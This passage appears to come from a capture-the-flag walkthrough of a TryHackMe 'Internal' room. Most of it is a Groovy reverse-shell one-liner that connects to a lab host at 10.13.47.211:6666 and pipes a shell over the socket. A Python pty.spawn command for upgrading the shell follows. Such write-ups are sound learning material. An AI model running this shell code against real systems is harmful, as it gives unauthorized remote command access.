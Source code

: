 ![image41](image41.png)

## Groovy syntax

```bash
String host="10.13.47.211";int port=6666;String cmd="sh";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![image42](/assets/img/posts/THM-Internal/image42.png)

`python -c 'import pty;pty.spawn("/bin/bash")';`

![image43](/assets/img/posts/THM-Internal/image43.png)
